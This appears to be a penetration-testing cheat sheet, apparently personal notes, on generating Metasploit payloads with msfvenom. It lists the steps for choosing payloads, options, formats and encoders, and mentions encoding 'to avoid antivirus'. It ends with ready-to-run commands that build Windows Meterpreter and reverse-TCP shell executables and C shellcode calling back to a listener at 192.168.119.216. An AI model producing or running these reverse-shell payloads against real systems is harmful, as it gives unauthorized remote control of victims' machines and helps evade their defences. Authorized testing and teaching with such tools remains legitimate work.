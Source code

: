 ## Metasploit Framework Venom

This can be run from Bash or from Metasploit.  In MSF, you can use the `msfvenom` command or the `generate` command from within a payload.

### Creating a Payload

The basic formula for creating a payload with msfvenom is:

1. Choose a payload type (this should match whatever application and OS you are targeting)

   ```bash
   # Show all payloads
   msfvenom -l payloads  # You will probably want to grep this output because it's a LONG list
   ```

2. Specify options for the payload (for instance, a reverse shell requires the IP and Port the target should connect back to)

   ```bash
   # Show all options for a payload
   msfvenom -p YOUR_PAYLOAD --list-options
   
   # NOTE: Some older versions of msfvenom use --payload-options instead
   ```

3. Specify a format to create the payload in

   ```bash
   # Show all output options
   msfvenom -l formats
   ```

4. Specify an output file (without this, it will dump the payload to the screen for some options)

5. (OPTIONAL) You can also encode the payload to avoid antivirus.

   ```bash
   # Show all encoders
   msfvenom -l encoders
   ```

## msfvenom Cheat Sheets

Windows Meterpreter Payload

```bash
msfvenom -p windows/meterpreter/reverse_http LHOST=192.168.119.216 LPORT=8000 -f exe -o win_met_revhttp_8001.exe
```

Windows x86 Reverse TCP Payload

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.216 LPORT=8000 -f exe -o win_revtcp_8000.exe

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.216 LPORT=4444 -f c
```

